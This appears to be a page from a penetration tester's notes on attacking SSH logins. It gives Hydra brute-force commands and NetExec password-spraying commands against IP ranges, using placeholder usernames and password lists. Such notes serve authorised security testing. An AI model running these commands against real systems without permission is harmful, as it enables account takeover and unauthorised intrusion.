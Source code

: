 # Unix Shell

## 01 - Hydra

```
$ hydra -l <username> -P passwords.lst ssh://<IP>/<CIDR>

$ hydra -l <username> -P passwords.lst <IP>/<CIDR> ssh
```

## 02 - NetExec

Password spraying.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p "<password>"
```

Password spraying without bruteforce.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/SSH|Password Cracking: SSH]]

- [NetExec: SSH Password Spraying](https://www.netexec.wiki/ssh-protocol/password-spraying)